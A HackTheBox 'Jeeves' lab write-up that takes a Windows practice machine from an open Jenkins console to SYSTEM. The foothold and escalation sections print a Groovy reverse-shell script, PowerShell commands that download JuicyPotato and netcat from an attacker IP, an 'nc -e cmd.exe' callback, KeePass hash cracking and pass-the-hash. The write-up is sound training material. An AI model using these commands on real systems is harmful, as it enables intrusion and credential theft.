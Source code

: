 ```yaml
---
title: "HackTheBox - Jeeves"
author: Nasrallah
description: ""
date: 2023-03-23 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, jenkins, passthehash, crack, john]
img_path: /assets/img/hackthebox/machines/jeeves
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [jeeves](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.63
Host is up (0.14s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h59m58s, deviation: 0s, median: 4h59m58s
| smb2-time: 
|   date: 2023-03-19T13:39:02
|_  start_date: 2023-03-19T13:30:18
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

We found 4 open ports, port 80 is running MS IIS web server, port 135 is MSRPC, port 445 is SMB and port 50000 is Jetty http web server.

## Web

Let's navigate to the web page on port 80.

![](1.png)

We got what looks like a search engine, the links go nowhere but searching for something gives us the following.

![](2.png)

We got an error which would have been useful for us if it was real. By checking the source code we see that this is an image.

```html
<img src="jeeves.PNG" width="90%" height="100%">
```

Checking the source code of the home page we find that whatever we submit we get redirected to this error page.

```html
<form class="form-wrapper cf" action="error.html">
    <div class="byline"><p><a href="#">Web</a>, <a href="#">images</a>, <a href="#">news</a>, and <a href="#">lots of answers</a>.</p></div>
  	<input type="text" placeholder="Search here..." required>
	  <button type="submit">Search</button>
    <div class="byline-bot">Skins</div>
</form>
```

Let's check the other web page.

![](3.png)

We got a 404 error, let's run a directory scan and see what we can find.

```terminal
$ feroxbuster -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.63:50000/ -n            

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.63:50000/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
302      GET        0l        0w        0c http://10.10.10.63:50000/askjeeves => http://10.10.10.63:50000/askjeeves/
```

There is a directory called `askjeeves`, let's check it out.

![](4.png)

This is Jenkins admin dashboard and we're not even logged in!

# **Foothold**

To get a reverse shell, we can use `script console` that runs groovy script and execute the following code:

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](5.png)

We setup a listener and click run

![](6.png)

We got a shell!


# **Privilege Escalation**

## Method 1

Checking `kohsuke`'s Documents directory, we find a keepass file called `CEH.kdbx`.

To download the file, i setup an smb server with the following command

```bash
impacket-smbserver share ./share -smb2support
```

Then on the target i run the following command

```powershell
copy CEH.kdbx \\10.10.17.90\share
```

The file is encrypted and we need a password to read it.

Using `keepass2john` can extract the hash and then crack it using `john`.

![](7.png)

We got the password now we can open the keepass file.

![](8.png)

We find multiple passwords and one `NTLM` hash.

Tried to connect with the clear text password but none of them worked.

We couldn't crack the NTLM hash, but we can try the `passthehash` attack using `psexec`

![](9.png)

## Method 2

Let's check our privileges.

```terminal
C:\Users\Administrator\.jenkins>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

```

We have `SeImpersonatePrivilege`, this means we can use [JuicyPotato](https://github.com/ohpe/juicy-potato/releases) to get system privileges.

First we upload juicyPotato executable and a copy of netcat.

```powershell
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.17.90/JuicyPotato.exe', 'Potato.exe')
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.17.90/nc.exe', 'nc.exe')
```

Then we run the following command that would send us a reverse shell

```powershell
Potato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.17.90 9002" -t *
```

![](11.png)

Finally to get the root flag, we go administrator's desktop, run `dir /r` to see alternative data stream.

We find a file called `hm.txt:root.txt`, which is a file withing a file, to read is run `more < hm.txt:root.txt`

For more information of data streams check this [article](https://www.malwarebytes.com/blog/news/2015/07/introduction-to-alternate-data-streams)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
